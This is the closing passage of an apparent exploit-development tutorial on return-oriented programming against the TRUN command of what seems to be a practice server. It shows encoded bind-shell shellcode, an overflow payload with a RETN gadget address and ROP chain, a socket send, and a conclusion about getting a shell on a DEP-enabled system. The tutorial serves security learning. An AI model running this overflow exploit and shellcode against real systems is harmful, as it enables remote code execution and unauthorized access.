SHELL += b"\x1a\xb4\x55\x85\xa3\x61\xc3\x8d\x02\xda\xf6\x70"
SHELL += b"\xf4\x8a\xb6\xda\x9d\xc0\x38\x05\xbd\xea\x92\x2e"
SHELL += b"\x56\x17\x1d\x41\xfb\x9e\xfb\x0b\x13\xf7\x54\xa3"
SHELL += b"\xd1\x2c\x6d\x54\x29\x07\xc5\xf2\x62\x41\xd2\xfd"
SHELL += b"\x72\x47\x74\x69\xf9\x84\x40\x88\xfe\x80\xe0\xdd"
SHELL += b"\x69\x5e\x61\xac\x08\x5f\xa8\x46\xa8\xf2\x37\x96"
SHELL += b"\xa7\xee\xef\xc1\xe0\xc1\xf9\x87\x1c\x7b\x50\xb5"
SHELL += b"\xdc\x1d\x9b\x7d\x3b\xde\x22\x7c\xce\x5a\x01\x6e"
SHELL += b"\x16\x62\x0d\xda\xc6\x35\xdb\xb4\xa0\xef\xad\x6e"
SHELL += b"\x7b\x43\x64\xe6\xfa\xaf\xb7\x70\x03\xfa\x41\x9c"
SHELL += b"\xb2\x53\x14\xa3\x7b\x34\x90\xdc\x61\xa4\x5f\x37"
SHELL += b"\x22\xd4\x15\x15\x03\x7d\xf0\xcc\x11\xe0\x03\x3b"
SHELL += b"\x55\x1d\x80\xc9\x26\xda\x98\xb8\x23\xa6\x1e\x51"
SHELL += b"\x5e\xb7\xca\x55\xcd\xb8\xde"

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    create_rop_chain() +
    # Align stack
    b'\x83\xE4\xF0' +   # and esp, 0xfffffff0
    SHELL +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Note that I added the `and esp, 0xfffffff0` to align the stack. This
is commonly needed when you mess around with the stack.

Let's check it now:

image::success.gif[Success]

Great! We got a shell!

You can download the final exploit link:exploit.py[here].

== Conclusions

In this article, we use the power of Return-Oriented Programming to
complete a working exploit with a bind TCP shell on a DEP-enabled OS.
Each application is different and using `ROP` gadgets to perform complex
operations is an art, because there is not a generic way to do it.

